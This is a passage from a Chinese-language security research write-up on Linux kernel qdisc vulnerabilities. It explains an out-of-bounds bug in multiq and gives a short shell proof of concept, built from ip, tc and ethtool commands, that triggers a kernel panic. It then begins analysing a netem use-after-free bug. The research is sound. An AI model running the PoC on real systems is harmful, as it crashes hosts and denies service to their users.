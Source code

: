 ```c
        if (q->queues[i] != &noop_qdisc) {
            // [...]
            removed[n_removed++] = child; // [6]
        }
    }

    // the max value of "n_removed" is (q->max_bands - qopt->bands)
    // but the length of removed[] is (q->max_bands - q->bands)
    for (i = 0; i < n_removed; i++) // [7]
        qdisc_put(removed[i]); // [8]
    kfree(removed);
    
    // [...]
}
```

透過 user space built-in network manage tools，我們可以構造出一個能觸發 oob access 並造成 kernel panic 的 POC。

```bash
#!/bin/sh

# 1. 設定 device "veth0 tx / rx 大小為 50
ip link add veth0 numtxqueues 50 numrxqueues 50 type veth peer numtxqueues 50 numrxqueues 50 name veth1 

# 2. 一開始有 50 個 real tx
tc qdisc add dev veth0 root handle 1: multiq 

# 3. 更新 real tx 成 8 個
ethtool -L veth0 rx 8 tx 8

# 4. 上次 (50) > 這次 (8)，造成 oob access
tc qdisc change dev veth0 root handle 1: multiq
```



## 4. netem: fix return value if duplicate enqueue fails
> 該漏洞還沒發佈 CVE，待發布後會更新上來

這個漏洞的成因比上個 (CVE-2024-36978) 複雜不少，是一個非常有趣的邏輯洞，需要對 network scheduling 有一定的了解才能找到。如果直接看 [commit message](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c07ff8592d57ed258afee5a5e04991a48dbaf382)，大概只能得到：qdisc netem 的 duplicate packet 功能會造成 UAF 的結論。

我們先從 netem (Network emulator) 的 `struct Qdisc_ops` object 開始分析。

```c
static struct Qdisc_ops netem_qdisc_ops __read_mostly = {
    .id          =    "netem",
    .cl_ops      =    &netem_class_ops,
    .priv_size   =    sizeof(struct netem_sched_data),
    .enqueue     =    netem_enqueue,
    .dequeue     =    netem_dequeue,
    .peek        =    qdisc_peek_dequeued,
    .init        =    netem_init,
    .reset       =    netem_reset,
    .destroy     =    netem_destroy,
    .change      =    netem_change,
    .dump        =    netem_dump,
    .owner       =    THIS_MODULE,
};
```
